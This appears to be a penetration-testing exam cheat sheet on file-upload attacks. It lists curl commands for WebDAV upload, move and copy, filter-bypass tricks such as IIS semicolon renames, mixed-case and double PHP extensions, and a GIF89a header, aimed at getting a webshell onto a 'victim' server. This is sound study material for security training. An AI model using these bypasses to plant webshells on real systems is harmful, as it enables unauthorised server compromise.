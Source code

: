 # File Upload

If try to upload webshell to victim check how the exploit is done. Check any bad characters

e.g. $XXX is taken as variable in bash, need to use $ to escape

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/File%20upload.md#webdav)WebDav

upload file:  
curl -T '/path/to/local/file.txt' '[https://example.com/test/](https://example.com/test/)'  
curl --upload-file <file> http://<IP>/test/<filename>

curl -X MOVE --header 'Destination:[http://example.org/new.txt](http://example.org/new.txt)' '[https://example.com/old.txt](https://example.com/old.txt)'  
curl -X COPY --header 'Destination:[http://example.org/new.txt](http://example.org/new.txt)' '[https://example.com/old.txt](https://example.com/old.txt)'

login:  
curl --user 'user:pass' '[https://example.com](https://example.com/)'

Upload bypass:  
[https://www.owasp.org/index.php/Unrestricted_File_Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)  
[https://soroush.secproject.com/blog/tag/unrestricted-file-upload/](https://soroush.secproject.com/blog/tag/unrestricted-file-upload/)

IIS 6.0 or below Asp > upload as test.txt, copy or move file as test.asp;.txt

Php > upload as pHp / phP / test.php.jpg /

php - phtml, .php, .php3, .php4, .php5, and .inc

asp - asp, .aspx

perl - .pl, .pm, .cgi, .lib

jsp - .jsp, .jspx, .jsw, .jsv, and .jspf

Coldfusion - .cfm, .cfml, .cfc, .dbm

Add:

GIF89a;

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/File%20upload.md#options)Options

Use options to check for upload method.

upload function. Is put allowed?